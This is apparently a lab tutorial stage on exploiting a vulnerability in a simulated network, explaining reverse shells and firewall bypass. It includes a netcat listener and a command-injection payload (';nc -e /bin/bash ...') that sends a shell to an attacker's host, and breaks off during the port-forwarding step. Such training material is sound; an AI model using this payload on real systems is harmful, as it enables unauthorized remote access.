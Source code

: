 # Stage 3: Exploiting Vulnerability

### What Is A Reverse Shell

A reverse shell is a method attackers use to access a victim's system. The reverse shell is so effective because of the way most firewalls are already configured. Most firewalls default to deny all inbound traffic but allow all outbound traffic. A reverse shell is so effective because the attacker uses an exploit to send out a shell from the victim's system to the attacker's WAN to gain access. This bypasses the firewall because it allows all traffic outbound rules to send a shell to the attacker's WAN. 

### How To Catch A Reverse Shell
To catch a reverse shell you need 3 things: 

- Listener (think: _'thing that catches reverse shell'_)
- Payload (think: _'thing that sends you a reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)


### Listener

Attacker:

```bash
nc -lvp 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-l: instructs netcat to listen for incoming connections on a specified port.

v: enables verbose mode, providing more detailed output about the connection.

p 44554: specifies the port number (44554 in this case) on which netcat should listen.

### Payload

```bash
;nc -e /bin/bash 192.168.122.209 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-e /bin/bash: specifies that netcat should execute a shell (/bin/bash) on the established connection.

192.168.122.209 44554: This specifies the target IP address (192.168.122.209) and port number (44554) to connect to.

It is important to note when executing a payload you must send the shell to the attackers WAN because the firewall rules denys all inbound traffic. This is why we create a port forwarding rule.

### Port Forwarding Rule

Because this a simulated enviroment we have to find the router/firewall. To access the router/firewall we have to undestand how networking works. On the Kali box I am attacking from I run "ifconfig" to get my IP address. 

My IP address is 192.168.2.72 The subnet is set to 255.255.255.0
